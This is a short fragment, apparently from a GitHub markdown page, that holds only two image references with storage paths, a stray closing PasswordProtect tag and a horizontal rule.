



</PasswordProtect>
---